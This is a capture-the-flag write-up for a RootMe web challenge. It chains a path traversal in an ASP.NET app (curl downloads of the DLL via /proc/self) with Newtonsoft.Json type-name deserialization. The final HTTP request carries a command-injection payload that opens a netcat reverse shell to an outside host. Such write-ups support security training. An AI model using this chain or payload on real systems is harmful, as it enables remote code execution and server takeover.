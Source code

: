 # T'es pas .net ?

## Challenge

>   Baptiste ... Baptiste ... What did you do ?
>
>   Author : `Elweth` 

- Category: Web
- Difficulty: Easy

## Deployment

- Docker compose

```bash
cd src; docker compose up
``` 

## Writeup

The application allows users to report cheaters on the RootMe platform. To do so, you need to fill in the following form:

![net1](/images/net1.png)

To do this, a form is sent as a POST containing a JSON body with the form data.

The responses header Server: Kestrel corresponds to an ASP.NET application.

An error message appears when you try to access a page that doesn't exist on the application:

![net2](/images/net2.png)

Adding a new '/' produces an error message indicating that the backend has attempted to read a file from the web server root.

So we have a nice path traversal that lets you arbitrarily read files on the server.

![net3](/images/net3.png)

You can find the command that launched the current program by reading the `/proc/self/cmdline` file.

![net4](/images/net4.png)

This is a `dotnet` application that launches the `CheaterReport.dll` file.

The file can be read by reading the file `/proc/self/cwd/CheaterReport.dll` :

![net5](/images/net5.png)

It is possible to retrieve files locally by downloading the files:

```bash
curl 'http://node1.challenges.ctf20k.root-me.org:27202//proc/self/cwd/CheaterReport.dll' -o CheaterReport.dll
curl 'http://node1.challenges.ctf20k.root-me.org:27202//proc/self/cwd/CheaterReport.runtimeconfig.json' -o CheaterReport.runtimeconfig.json
```

![net6](/images/net6.png)

Running the application locally can be useful, but is not necessary.

To continue, you can use a .NET code decompiler. There are a number of such tools available; for the example below, I'm going to use dotPeek from JetBrains.

By importing the DLL into the software, it is possible to display the source code.

Here's the main application, showing the mapping of the various endpoints :

![net7](/images/net7.png)

The contact endpoint retrieves the content posted in JSON and uses the following function to parse it:

```dotnet
JsonConvert.DeserializeObject<object>(endAsync, new JsonSerializerSettings()
{
    TypeNameHandling = (TypeNameHandling) 3
});
```

A closer look at this feature and at the libraries imported into the application reveals the use of the Newtonsoft.Json library.

After a few Google searches, we came across the following link:

- https://exploit-notes.hdks.org/exploit/web/security-risk/json-net-deserialization/

Newtonsoft lets you arbitrarily instantiate .NET classes when JSON is deserialized, using the following syntax:

```dotnet
{
	"$type": "<namespace>.<class>, <assembly>",
	"<method_name>": "<attribute>"
}
```

So we need a "Gadget" to call to have an interesting primitive on the server (File read/write, command execution etc).

The source code is very minimalist and as we continue to audit it, we come across an interesting class.

![net8](/images/net8.png)

The logging function calls a system command with a variable passed as a constructor parameter.

We can therefore use deserialization to instantiate this class with the string we want to pass in the echo command as parameter.

In this command, you can use subshell commands to execute the commands you want.

```bash
POST /Contact HTTP/1.1
Host: node1.challenges.ctf20k.root-me.org:27202
Content-Length: 119
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
  "$type": "CheaterReport.Models.Logging, CheaterReport",
  "logged_string": "$(nc tqtpas.fr 4444 -e /bin/bash)"
}
```

![net9](/images/net9.png)